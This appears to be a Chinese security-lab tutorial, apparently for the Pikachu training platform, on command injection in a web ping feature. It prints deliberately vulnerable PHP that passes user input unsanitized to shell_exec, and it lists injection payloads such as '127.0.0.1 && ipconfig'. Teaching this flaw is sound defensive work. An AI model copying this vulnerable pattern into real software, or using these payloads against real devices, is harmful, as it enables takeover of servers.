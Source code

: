 比如我们常见的路由器、防火墙、入侵检测等设备的 web 管理界面上

一般会给用户提供一个 ping 操作的 web 界面,用户从 web 界面输入目标 IP,提交后,后台会对该 IP 地址进行一次 ping 测试,并返回测试结果. 而,如果,设计者在完成该功能时,没有做严格的安全控制,则可能会导致攻击者通过该接口提交"意想不到"的命令,从而让后台进行执行,从而控制整个后台服务器

### exec "ping"

**服务器端核心代码**
```php
if(isset($_POST['submit']) && $_POST['ipaddress']!=null){
    $ip=$_POST['ipaddress'];
//     $check=explode('.', $ip);可以先拆分,然后校验数字以范围,第一位和第四位1-255,中间两位0-255
    if(stristr(php_uname('s'), 'windows')){
//         var_dump(php_uname('s'));
        $result.=shell_exec('ping '.$ip);//直接将变量拼接进来,没做处理
    }else {
        $result.=shell_exec('ping -c 4 '.$ip);
    }
}
```

**漏洞利用**

可以拼接想要执行的命令
- payload: `127.0.0.1 && ipconfig`
- payload: `127.0.0.1 & ipconfig`
- payload: `127.0.0.1 | ipconfig`

![](../../../../assets/img/安全/实验/Misc/pikachu/24.png)
